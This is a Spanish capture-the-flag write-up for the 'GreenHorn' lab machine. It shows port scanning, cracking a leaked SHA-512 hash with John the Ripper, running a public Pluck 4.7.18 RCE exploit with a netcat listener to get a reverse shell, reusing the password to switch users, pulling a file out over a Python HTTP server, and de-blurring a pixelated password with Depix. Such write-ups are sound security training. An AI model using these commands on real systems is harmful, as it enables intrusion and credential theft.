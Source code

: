 ```yaml
---
title: "GreenHorn"
date: "2024-11-30T17:00:00-05:00"
type: "maquinas"
draft: false
tags: ["CVE", "linux", "RCE", "pluk"]
---
```


### Descripción : 

Una máquina bastante sencilla en la que la enumeración es la clave para hallar la primera contraseña, que te servirá para usar un CVE y obtener una shell. Ya para el escalamiento de privilegios, algo absurdo y poco útil, pero entretenido.

# Enumeración

Como siempre, vamos a empezar descubriendo qué puertos hay y con qué servicios.

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn IP -oG allports
```

<a href="https://imgur.com/CVStAE2"><img src="https://i.imgur.com/CVStAE2.png" title="source: imgur.com" /></a>

```shell
nmap -sCV -p80,22,3000 IP -oN target
```
<a href="https://imgur.com/VoVjrkv"><img src="https://i.imgur.com/VoVjrkv.png" title="source: imgur.com" /></a>

Vemos una página en el puerto 80, por lo que vamos a agregar la IP al /etc/hosts.

Cuando abrimos la página, vemos que en la parte inferior dice "admin". Si le damos clic, nos lleva a un inicio de sesión. Dejaremos esto para más adelante.

<a href="https://imgur.com/iX0hq2a"><img src="https://i.imgur.com/iX0hq2a.png" title="source: imgur.com" /></a>

Ahora vamos a revisar la página, pero por el puerto 3000. Después de buscar un rato, encontramos una especie de repositorio. Si revisamos estos archivos, encontramos un archivo llamado pass.php.

<a href="https://imgur.com/rWOUO3B"><img src="https://i.imgur.com/rWOUO3B.png" title="source: imgur.com" /></a>

Esto nos deja un hash que, si usamos un hash identifier, nos dice que es un SHA-512. Por lo tanto, con John the Ripper lo podemos decodificar.

```shell
john --format=Raw-SHA512 hash.txt /usr/share/wordlist/rockyou.txt
```

<a href="https://imgur.com/vJ89JOu"><img src="https://i.imgur.com/vJ89JOu.png" title="source: imgur.com" /></a>

Si volvemos al *login* que habíamos encontrado y usamos esta contraseña, nos permite iniciar sesión. Si miramos qué tecnologías tiene la página, nos damos cuenta de que tiene un **Pluck 4.7.18**, que tiene un CVE que podemos explotar con la contraseña que encontramos. Si copiamos este [exploit de GitHub](https://github.com/b0ySie7e/Pluck_Cms_4.7.18_RCE_Exploit/tree/main), podemos obtener una shell.

Primero, vamos a crear un entorno virtual de Python:

```shell
python -m venv "Enviroment name"
source "Enviroment name"/bin/activate
```

E instalamos este módulo para que el script de GitHub funcione sin problemas:

```python
pip3 install requests_toolbelt
```

Ahora ponemos un `nc` en escucha y ejecutamos el script con sus parámetros:

```shell
nc -lvnp 4444 
python3 exploit_pluckv4.7.18_RCE.py --password iloveyou1 --ip 10.10.16.47 --port 4444 --host http://greenhorn.htb
```

Y con esto tenemos una shell:

<a href="https://imgur.com/JS1Fppw"><img src="https://i.imgur.com/JS1Fppw.png" title="source: imgur.com" /></a>

Si tratamos de cambiar a uno de los dos usuarios, no vamos a encontrar forma de hacerlo. Por lo tanto, al final tratamos de usar la misma contraseña con el usuario **Junior** y nos funcionó.

Si miramos dentro de la carpeta de **Junior**, hallamos dos cosas: un PDF y la flag. Vamos a montar un servidor HTTP con Python para llevar ese PDF a nuestra máquina.

```python
python3 -m http.server [puerto]
wget http://IP:[puerto]/'Using OpenVAS.pdf'
```

Dentro del pdf nos encontramos una especie de carta con una contraseña difuminada

<a href="https://imgur.com/fKDsNls"><img src="https://i.imgur.com/fKDsNls.png" title="source: imgur.com" /></a>

Si buscamos formas de conseguir esta contraseña nos vamos a encontrar este github [Depix](https://github.com/spipm/Depix), ya viendo esto vamos a hacer dos cosas clonar el repositorio y extraer la imagen del pdf en una pagina que nos permita esto, para luego descifrar la contraseña.

```shell
git clone https://github.com/spipm/Depix
python3 depix.py -p ../imagen-pdf -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
```
